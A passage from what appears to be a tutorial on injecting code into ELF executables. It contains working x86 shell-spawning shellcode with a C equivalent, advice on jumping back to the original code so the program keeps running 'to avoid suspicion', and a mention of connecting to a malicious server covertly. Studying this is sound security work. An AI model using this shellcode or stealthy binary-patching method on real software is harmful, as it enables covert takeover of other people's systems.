     #include <unistd.h>
    #include <sys/syscall.h>
    int main() {
        char *str = "/bin/sh";
        char **args = NULL;
        syscall(SYS_execve, str, args, NULL);
        return 0;
    }

Now, why can't we just write this in C, compile it and use that? The
problem is twofold. Firstly, the compiler will ultimately be producing
an ELF from our source code, but all we want are program bytes. If this
program is compiled as-is, you're looking at about 4KB of an ELF-
equivalent shellcode can be written in 27 bytes. Secondly, we need to
have zero reliance on any shared libraries- our code needs to work
completely on its own. That's why shellcode is always written in
assembly. This is the same bit of shellcode in assembly (courtesy of 
http://shell-storm.org/shellcode/files/shellcode-698.php):


    xor    %eax,%eax    /* Zero the EAX reg */
    push   %eax         /* Push 0 to TOS */
    push   $0x68732f2f  /* Push "//sh" */
    push   $0x6e69622f  /* Push "/bin" */
    mov    %esp,%ebx    /* Save SP */
    mov    %eax,%ecx    /* Write 0 to ECX */
    mov    %eax,%edx    /* Write 0 to EDX */
    mov    $0xb,%al     /* Write 0xb (syscall # for execve) to AL */
    int    $0x80        /* SYSCALL */
    xor    %eax,%eax    /* Zero the EAX reg */
    inc    %eax         /* EAX ++ (syscall # for exit) */
    int    $0x80        /* SYSCALL */

Once this is assembled, this is exactly 27 bytes of fun. This is a great
bit of code for injection, since it's compact but gives us total control
by dropping a shell.

Now, it's also not a bad idea to have a control transfer instruction
back to the 'regular' code after our injection code. In this example, it
won't run (since the call to execve replaces the process address space,
and since we catch errors by also calling exit(2)). However, if you want
to do something more covert (say, connect to a malicious server), you
may want to have this run in the background as a forked process- and so
you want the original program to do its usual job to avoid suspicion.

This is pretty simple- just calculate the difference between the old
start location and the location of the JMP instruction you inject, and
use this offset as the destination for JMP.

### 4: Fix up dynamic objects and symbols

We're in the home stretch now- the code is in place, the sections are
all legal and mapped to the right segments, and for very simple ELFs,
what we have so far will work. However, there's still plenty of work to
do to account for the more complex features of ELFs. In particular we
need to consider dynamic objects, relocation sections, and symbols- all
of which will generally have some fixed address which we probably broke.

